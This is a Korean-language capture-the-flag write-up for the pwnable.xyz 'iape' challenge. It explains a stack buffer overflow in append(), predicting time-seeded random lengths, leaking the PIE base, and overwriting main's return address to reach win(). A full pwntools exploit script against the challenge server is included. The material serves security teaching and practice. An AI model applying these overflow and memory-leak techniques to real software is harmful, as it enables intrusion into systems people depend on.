 # [pwnable.xyz] iape

> Shake off the pwn and let's do some programming

## The Bug

![image](https://github.com/user-attachments/assets/588e0244-b1dc-4aa4-8000-001af7d76f74)

![image](https://github.com/user-attachments/assets/25086352-8ae1-48d5-ae6d-b20a7c6b93a0)

`append()`에 길이 검사가 존재하지 않아 stack buffer overflow가 발생한다.

## Exploit

`main()`의 return address를 `win()`의 주소로 덮어쓰면 플래그를 획득할 수 있다.

### Generate random values

![image](https://github.com/user-attachments/assets/ac5dd87d-72fe-4f20-bb3a-bcc1b7c97e62)

`setup()`에서 `time(0)` (현재 시각)을 random seed로 설정한다. 이 값은 재현할 수 있기 때문에, `append()`에서 랜덤으로 주는 길이들을 미리 계산해놓을 수 있다.

### Leak PIE

![image](https://github.com/user-attachments/assets/34950351-0f9e-4c2a-87fc-95537ccca289)

`append()`에서 `read()`로 `rbp-0x20`부터 입력을 받는데, `rbp-0x18`에 `read_int32+64`의 주소가 저장되어 있다. `read_int32()` 내부에서 `atoi()`를 호출할 때 만들어진 return address가 쓰레기값으로 남아 있는 것이다.

만약 `len`이 14 이상일 때 8바이트만 입력하면, `strncat()`이 `read_int32+64`의 주소까지 가져와서 `s`에 이어붙이게 된다. 이때 `s`를 출력하면 PIE base를 계산할 수 있다.

Return address 직전까지 `0x408`바이트를 채우면 `len`이 14 이상일 때 PIE를 leak하고, 그 후에 `main()`의 return address를 `win()`의 주소로 덮어쓴 후 `main()`을 return하면 된다.

### Full code

```python
from pwn import *
from ctypes import *

r = remote("svc.pwnable.xyz", 30014)

sla = r.sendlineafter
sa = r.sendafter


def Init(data):
    sla(b"> ", b"1")
    sla(b"data: ", data)


def Append(data, zero=False):
    sla(b"> ", b"2")
    if not zero:
        sa(b"chars: ", data)


def Print():
    sla(b"> ", b"3")


# generate random values

libc = CDLL("/usr/lib/x86_64-linux-gnu/libc.so.6")
libc.srand(libc.time((0)))

randValues = []
randSum = 0

while randSum <= 0x388:
    randValue = libc.rand() % 0x10
    randValues.append(randValue)
    randSum += randValue


# leak pie

Init(b"A" * (0x408 - randSum))

leaked = False  # true if PIE is leaked

for randValue in randValues:
    if randValue >= 14 and not leaked:
        sla(b"> ", b"2")
        sa(b"chars: ", b"A" * 8)

        Print()

        r.recvline()
        pie = u64(r.recvline()[-7:-1].ljust(8, b"\x00")) - 0xBC2  # pie base
        log.info("pie base: " + hex(pie))

        leaked = True
    elif randValue == 0:
        Append(b"A" * randValue, True)
    else:
        Append(b"A" * randValue)


# overwrite return address

win = pie + 0xB57
overwritten = 0  # overwritten bytes in return address

while overwritten < 6:
    sla(b"> ", b"2")

    r.recvuntil(b"Give me ")
    chars = int(r.recvuntil(b" ")[:-1])

    if overwritten + chars > 8:
        sa(b"chars: ", p64(win)[overwritten:])
    else:
        sa(b"chars: ", p64(win)[overwritten : overwritten + chars])

    overwritten += chars

sla(b"> ", b"0")  # return main() => call win()


r.interactive()
```

![image](https://github.com/user-attachments/assets/cd29612e-c8b5-425c-8117-25c9269d2bce)
